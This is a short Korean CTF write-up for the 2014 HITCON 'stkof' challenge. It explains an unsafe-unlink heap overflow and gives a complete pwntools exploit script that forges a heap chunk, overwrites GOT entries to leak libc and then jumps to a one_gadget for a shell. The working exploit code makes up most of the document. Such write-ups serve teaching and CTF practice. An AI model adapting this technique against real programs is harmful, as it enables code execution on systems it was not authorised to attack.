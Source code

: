 ```yaml
---
title: "2014 HITCON CTF stkof"
date: 2020-4-18
ctf: HITCON CTF
layout: post
published : false
---
```


* unsafe unlink
* heap overflow
* bss manage

1번 메뉴에서 원하는 사이즈만큼 힙에 할당하고 전역변수에 청크주소를 저장한다. 2번 메뉴에서는 원하는 사이즈만큼 청크내용을 수정할 수 있다. 3번 메뉴는 청크를 프리해주고 0으로 초기화해준다. 4번 메뉴는 별거 없다.

fake chunk를 구성해줘서 fd는 target - 24 bk는 target - 16에 맞춰주고 다음 청크의 prev_size와 size를 맞춰주고 size는 PREV_INUSE bit를 없애준다. 그리고 edit을 이용해서 strlen@got -> puts@plt(puts@got) 로 맞춰서 leak해주고 one_gadget으로 got를 덮어주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stkof')
p = process('./stkof')
libc = e.libc
s = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
cnt = 0x0000000000602100
chunk = 0x0000000000602150

def add(size):
	sl('1')
	sl(str(size))
	p.recvuntil('OK\n')

def edit(idx,size,content):
	sl('2')
	sl(str(idx))
	sl(str(size))
	s(content)

def free(idx):
	sl('3')
	sl(str(idx))

def leak(idx):
	sl('4')
	sl(str(idx))

add(0x80)
add(0x80)
add(0x80)

fakechunk1 = p64(0) # prev_size 
fakechunk1 += p64(0) # size
fakechunk1 += p64(chunk - 24) # fd
fakechunk1 += p64(chunk - 16) # bk
fakechunk1 += p64(0) * 12
fakechunk1 += p64(0x80) # prev_size
fakechunk1 += p64(0x90) # size
edit(2,len(fakechunk1),fakechunk1)

free(3) # unlink

payload = 'A'*0x18
payload += p64(e.got['strlen']) # strlen -> puts
payload += p64(e.got['puts'])
edit(2,len(payload),payload)
edit(2,8,p64(e.plt['puts']))
# strlen@got -> puts@plt(puts@got)

leak(3)
puts = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info(hex(puts))
libc_base = puts - libc.symbols['puts']
log.info(hex(libc_base))
oneshot = libc_base + 0x45216
pause()
edit(3,8,p64(oneshot))
# puts@got -> one_gadget


p.interactive()
```

